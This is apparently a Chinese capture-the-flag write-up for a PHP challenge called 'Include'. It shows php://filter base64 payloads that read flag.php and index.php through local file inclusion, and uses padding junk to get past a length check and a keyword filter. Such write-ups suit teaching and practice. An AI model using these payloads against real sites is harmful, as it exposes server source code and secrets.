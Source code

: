  

 

![img](./assets/wps240.jpg) 

 

post提交参数flag

 

Include

尝试php伪协议读取flag.php

构造payload：

flag=php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php

 

 

 

![img](./assets/wps241.jpg) 

提示nssctf waf！

 

利用php伪协议读取index.php

 

![img](./assets/wps242.jpg) 

 

![img](./assets/wps243.jpg) 

 

分析源码

首先输入字符要满足>800

其次过滤flag字符

添加脏数据

![img](./assets/wps244.jpg) 

构造payload：

| a=cccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc | cccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc&flag=php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
|                                                              |                                                              |

![img](./assets/wps245.jpg) 

 

![img](./assets/wps246.jpg) 

 

 
